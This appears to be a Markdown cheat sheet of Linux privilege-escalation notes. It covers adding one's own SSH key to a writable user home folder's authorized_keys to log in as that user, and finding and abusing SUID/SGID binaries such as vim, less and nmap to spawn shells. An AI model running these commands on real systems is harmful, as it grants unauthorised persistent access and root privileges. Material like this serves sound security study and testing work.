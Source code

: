 
## Writable home Folders

### Insert ssh key

* If I have access to a user's home folder, I can insert *MY* ssh key in there and ssh into machine with *MY* key:

* On attacker (MY) machine (if *I* don't already have a key)
```
$ ssh-keygen
```

* On writable host HOME folder:
```
$ mkdir [mounted_home]/.ssh
$ cat id_rsa.pub > [mounted_home]/.ssh/authorized_keys
```

* On attacker machine:
```
$ ssh -i id_rsa [user]@[host]
```
---


## SUID and GUID Misconfiguration

* See [GTFOBins](https://gtfobins.github.io/) for each app that can be used and how.

* When a binary with suid permission is run it is run as another user, and therefore with the other users privileges. It could be root, or just another user. If the suid-bit is set on a program that can spawn a shell or in another way be abuse we could use that to escalate our privileges.
* the system pretends that the person accessing the file is the owner of the passwd command, not the person who is running the command.

* setgid is essentially the same thing as setuid on a file. When someone runs the command, instead of accessing files as the group the person is a part of, the system pretends the person is a member of the group the file is owned by.

* For example, these are some programs that can be used to spawn a shell:
```
nmap
vim
less
more
bash  (is a shell)
sh    (is a shell)
```

* Find suid and guid files

  ```
  #Find SUID
  find / -perm -u=s -type f 2>/dev/null

  #Find GUID
  find / -perm -g=s -type f 2>/dev/null
  ```

